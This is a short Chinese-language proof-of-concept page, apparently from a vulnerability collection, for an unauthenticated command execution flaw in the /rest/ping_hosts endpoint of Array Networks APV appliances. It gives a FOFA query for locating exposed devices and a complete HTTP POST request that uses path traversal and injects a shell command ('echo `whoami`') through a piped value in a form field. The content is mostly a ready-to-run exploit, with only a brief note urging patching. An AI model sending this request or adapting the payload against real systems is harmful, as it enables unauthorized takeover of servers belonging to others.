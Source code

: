 # Array-Networks-APV应用交付系统ping_hosts存在任意命令执行漏洞

Array Networks APV应用交付系统 /rest/ping_hosts 接口存在远程命令执行漏洞，未经身份攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。该漏洞利用难度较低，建议受影响的用户尽快修复。

## fofa

```javascript
app="Array-APV" && title=="Login"
```

## poc

```javascript
POST /restapi/../rest/ping_hosts HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive

["127.0.0.1| echo `whoami` received 2 3 4"]=1&csrfmiddlewaretoken=cXLnOdGshlksqOG0Ubnn4SlBvO8zOdWW
```

![image-20240913223135601](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409132231693.png)